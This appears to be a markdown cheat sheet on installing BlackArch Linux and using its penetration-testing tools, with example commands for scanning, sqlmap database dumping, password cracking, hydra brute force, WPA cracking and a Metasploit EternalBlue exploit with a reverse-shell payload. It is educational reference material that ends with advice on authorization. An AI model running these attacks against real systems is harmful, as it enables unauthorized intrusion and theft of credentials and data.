





# BlackArch Tools

> **Category:** Cybersecurity
> **Distribution:** BlackArch Linux
> **Last Updated:** September 2026

---

## Overview

BlackArch is a complete Linux distribution for penetration testers and security researchers, built on Arch Linux with 2700+ security tools pre-configured.

## Installation

### Quick Setup
```bash
# Add BlackArch repository
curl -O https://blackarch.org/strap.sh
chmod +x strap.sh
sudo ./strap.sh

# Full tool installation
sudo pacman -Syu
sudo pacman -S blackarch

# By category only
sudo pacman -S blackarch-recon          # Recon tools
sudo pacman -S blackarch-exploitation   # Exploits
sudo pacman -S blackarch-cracking       # Password attacks
sudo pacman -S blackarch-webapp        # Web testing
sudo pacman -S blackarch-defensive     # Defense tools
```

## Tool Categories

### Reconnaissance


| Tool | Purpose | Example |
|------|---------|----------|
| nmap | Network mapping | `nmap -sV target.com` |
| masscan | High-speed scan | `masscan -p0-65535 target` |
| amass | Subdomains | `amass enum -passive -d domain.com` |
| theHarvester | OSINT | `theHarvester -d target.com -b all` |
| recon-ng | Framework | `recon-ng -w workspace` |

### Network Scanning

#### Nmap
```bash
# Basic scan
nmap -sV target.com

# Full port enumeration
nmap -p- -sV -O -sC target.com

# Stealth SYN scan (requires sudo)
sudo nmap -sS target.com

# Script scanning
nmap --script=vuln target.com

# Save output
nmap -sV target.com -oA scan_results
```

#### Masscan (10Gbps capable)
```bash
# Rate-limited scan
masscan target.com -p0-65535 --rate 10000

# Specific ports
masscan target.com -p22,80,443 --rate 5000
```

### Web Application Testing



#### Directory Enumeration
```bash
# Dirsearch
python3 dirsearch.py -u http://target.com -e php,html,js

# Gobuster
gobuster dir -u target.com -w wordlist.txt

# FFUF (fast fuzzer)
ffuf -w wordlist.txt -u target.com/FUZZ
```

#### SQL Injection
```bash
# Auto-detect
sqlmap -u "http://target.com/page?id=1"

# Enumerate databases
sqlmap -u "http://target.com/page?id=1" --dbs

# Dump data
sqlmap -u "http://target.com/page?id=1" -D db -T users --dump
```

#### Vulnerability Scanning
```bash
# Nuclei templates
nuclei -u http://target.com -t cves/

# Nikto web scanner
nikto -h http://target.com -o scan.txt
```

### Password Attacks



#### Hashcat (GPU Accelerated)
```bash
# MD5 hashes
hashcat -m 0 hash.txt rockyou.txt

# NTLM (Windows)
hashcat -m 1000 hash.txt wordlist.txt

# Bruteforce mode
hashcat -a 3 hash.txt ?a?a?a?a?a?a

# Show results
hashcat -m 0 hash.txt --show
```

#### John (CPU Based)
```bash
john --wordlist=rockyou.txt hashes.txt
john --show hashes.txt
john --format=raw-md5 hashes.txt
```

#### Hydra (Online Attacks)
```bash
# SSH brute force
hydra -l admin -P passwords.txt ssh://target.com

# HTTP form attack
hydra target.com http-post-form "/login:user=^USER^&pass=^PASS^:Invalid" -V
```

### Exploitation



#### Metasploit Framework
```bash
msfconsole

# Search modules
search type:exploit name:smb

# Use module
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.0.1
exploit
```

#### Burp Suite
```bash
# Configure browser proxy: 127.0.0.1:8080
burpsuite

# In browser: intercept requests
# Forward/modify traffic
# Use Intruder for fuzzing
```

### Wireless Security

```bash
# Monitor mode
airmon-ng start wlan0
airodump-ng wlan0mon

# Capture handshake
airodump-ng -w capture -c 6 --bssid MAC wlan0mon

# Crack WPA handshake
aircrack-ng -w rockyou.txt capture.cap
```

### Forensics & Reverse Engineering

| Tool | Purpose | Command |
|------|---------|---------|
| volatility | Memory forensics | `volatility -f mem.img windows.pslist` |
| binwalk | Firmware analysis | `binwalk image.bin` |
| radare2 | Binary analysis | `r2 binary` |
| sleuthkit | Disk forensics | `fls disk.image` |

## Tool Reference

### Quick Command Map


## Wordlists Location
```
/usr/share/wordlists/
/usr/share/wordlists/dirb/common.txt
/usr/share/seclists/Discovery/Web-Content/
```

## Troubleshooting

### Pacman Issues
```bash
# Fix signatures
sudo pacman-key --refresh-keys
sudo pacman -S archlinux-keyring

# Clear lock
sudo rm /var/lib/pacman/db.lck

# Update database
sudo pacman -Syu
```

### Tool Not Found
```bash
# Search package
pacman -Ss nmap

# Reinstall
sudo pacman -S nmap
```

## Best Practices

1. **Always verify authorization** before any testing
2. **Document everything** with timestamps
3. **Use isolated labs** for practice
4. **Keep tools updated** with `blackarch-update`
5. **Scope properly** to stay within authorization

**Tags:** #pentesting #security #tools